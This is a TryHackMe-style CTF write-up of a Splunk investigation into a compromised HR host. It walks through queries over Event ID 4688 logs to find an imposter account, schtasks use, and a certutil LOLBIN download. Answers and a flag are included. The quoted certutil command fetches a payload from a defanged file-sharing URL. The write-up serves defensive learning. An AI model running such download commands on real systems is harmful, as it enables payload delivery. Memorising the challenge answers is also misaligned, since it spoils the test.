 # Benign-THM-Challenge
Write-Up: Suspicious Process Execution Investigation

# Challenge room to investigate a compromised host.

## Objective
Learn more about Splunk and how to investigate the logs.
 Investigate a potential security incident flagged by an IDS, which identified suspicious process execution on an HR department host. 
 Initial findings suggested unauthorized network information gathering and scheduled task execution.

### Skills Learned

- Log Parsing and Analysis: I become familiar with using Splunk to search and filter logs based on specific fields like UserName, ProcessName, and CommandLine, helping to identify unusual or suspicious activity
- Searching for Rare Events: I practice using Splunk queries like rare values to identify outliers or anomalies, such as impersonation or abnormal process executions. This includes finding instances where common processes are being used in an unusual manner, like the use of LOLBINs (Living Off the Land Binaries)
- Investigating Process Execution: I get hands-on experience with process execution analysis, including tracking down which processes were executed by specific users, which is critical for understanding how an attack unfolded
- Identifying Malicious Behavior: By analyzing suspicious activity such as downloads from third-party sites or the execution of potentially malicious payloads.
- Timeline Creation: Splunk help me create a timeline of events related to the attack, such as when a suspicious binary was downloaded, which is useful for both incident response and forensic investigations

### Tools Used

- Splunk

## Solution Steps
Overview:

A host from the HR department was compromised, and suspicious activities were observed on the system. These activities included the execution of scheduled tasks, which confirmed the initial suspicion. The process execution logs were pulled using Event ID: 4688 and ingested into Splunk under the index win_eventlogs for further investigation.

The organization is divided into three departments:

```
IT Department: James, Moin, Katrina
HR Department: Haroon, Chris, Diana
Marketing Department: Bell, Amelia, Deepak

```

Questions & Answers:

**Question 1**: *How many logs are ingested from the month of March, 2022?*

To find the number of logs ingested from March 2022, change the date on the right top corner

Answer: 13,959 logs were ingested during the month of March 2022.

---

**Question 2:** Imposter Alert: There seems to be an imposter account observed in the logs. What is the name of that user?

To identify the imposter user, I searched for usernames not in the list of known users:

`index=win_eventlogs EventID=4688
NOT (UserName="James" OR UserName="Moin" OR UserName="Katrina" OR
UserName="Haroon" OR UserName="Chris" OR UserName="Diana" OR
UserName="Bell" OR UserName="Amelia" OR UserName="Deepak")
| stats count by UserName`

This returned the following suspicious usernames:
`
Amel1a
Chris.fort
Daina
`

Answer: The imposter user is Amel1a.

We can Also use this type of queries

This command returns a unique list of values for a specific field.
Useful when you want to see all distinct values for a field (e.g., unique usernames).
`index=win_eventlogs EventID=4688
| stats values(UserName)`
or
This command counts the occurrences of events grouped by a specific field
Useful when you need to know how many times a specific field (like a user) appears in the logs.
`index=win_eventlogs EventID=4688
| stats count by UserName`

---

**Question 3**: Which user from the HR department was observed running scheduled tasks?

I searched for the execution of the scheduled tasks utility, schtasks.exe, which is commonly used for automated task management.

`index=win_eventlogs EventID=4688
| search ProcessName="*schtasks.exe*"`

Answer: The user who ran scheduled tasks is Chris.fort from the HR department.

---

**Question 4**: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?

Certutil.exe is a Windows command-line tool used for managing certificates, but it can be exploited by attackers to download malicious payloads. I found Haroon executing the following command:

`index=win_eventlogs EventID=4688
| search ProcessName="*Certutil.exe*"`

Answer: Haroon executed the command:
certutil.exe -urlcache -f -  hxxps[://]controlc[.]com/e4d11035 benign.exe

---

**Question 5**: To bypass the security controls, which system process (LOLBIN) was used to download a payload from the internet?

Answer: The system process used to bypass security controls was Certutil.exe, as it is a legitimate Windows process often overlooked by security systems.

---

**Question 6**: What was the date that this binary was executed by the infected host?

The date of execution was found just below the command line in the logs.

Answer: 2022-03-04.

---

**Question 7:** Which third-party site was accessed to download the malicious payload?

From the command line, I identified the third-party site used for downloading the payload.

Answer:  controlc[.]com

---

**Question 8:** What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

The filename was included in the command line executed by Haroon.

Answer: The file saved was benign.exe.

---

**Question 9**: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?

To find the pattern, I examined the URL provided in the command line, which pointed to the downloaded file.

Answer: The malicious content pattern is: THM{KJ&*H^B0}.

---

**Question 10:** What is the URL that the infected host connected to?

The URL was clearly visible in the executed command line.

Answer: The URL used to download the malicious payload is:
hxxps[://]controlc[.]com/e4d11035

---

**Conclusion**:

*The investigation involved identifying suspicious activities in the HR department's compromised host. By reviewing the logs and searching for specific execution patterns (e.g., use of Certutil.exe and schtasks.exe), we were able to determine the presence of a malicious user and the payload involved. The exploitation utilized a legitimate system tool to bypass security controls and download a payload from a third-party server.*

*Ref 1: Network Diagram*
